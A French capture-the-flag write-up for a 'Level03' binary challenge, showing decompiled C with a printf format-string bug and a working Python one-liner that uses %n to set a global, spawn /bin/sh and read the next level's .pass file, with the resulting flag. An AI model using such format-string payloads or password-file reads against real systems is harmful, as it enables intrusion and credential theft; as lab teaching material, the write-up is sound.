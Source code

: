 # Rapport CTF - [Level03]

### Observation :
En arrivant sur le level3 on trouve un exécutable nommé level3.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaîne de caractère puis se ferme, comme sur le level précédant. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lançant le binaire dans hex-ray ou ghidra nous obtenons :
```c
int v()
{
int result; // eax
char s[520]; // [esp+10h] [ebp-208h] BYREF

fgets(s, 512, stdin);
printf(s);
result = m;
if ( m == 64 )
{
fwrite("Wait what?!\n", 1u, 0xCu, stdout);
return system("/bin/sh");
}
return result;
}
// 804988C: using guessed type int m;

//----- (0804851A) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
return v();
}
```
Nous avons une fonction `v()` qui sous la condition `m == 64` peux nous donner un `/bin/sh`. \
Nous avons aussi un `printf(s)` qui vas lire tout ce que contient `s`, donc notre `stdin`. \
Nous pouvons injecter des valeurs avec la fonction `%n` de printf qui écrit le nombre d'octets précédemment écrit par printf. 

### Solution :
Il nous faut donc écrire 64 octets dans printf, que nous allons injecter dans la variable globale `m`.
Pour ce faire, il nous faut écrire l'adresse de la global `m`, ainsi que 3 adresses de 8 octets chacune pour pouvoir bien placer notre adresse de `m` dans la mémoire.
Par la suite, on peut écrire des octets random jusqu'à atteindre 64 caractères écrits par printf et mettre un `%n` pour pouvoir injecter la valeur `64` dans `m`.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print ('\x08\x04\x98\x8c'[::-1] + '%8.x'*3 + 'A'*(64 - (8*3) - 4) + '%n')"; echo "cat /home/user/level4/.pass") | ./level3
```

### Resultat :
```sh
�     200b7fd1ac0b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
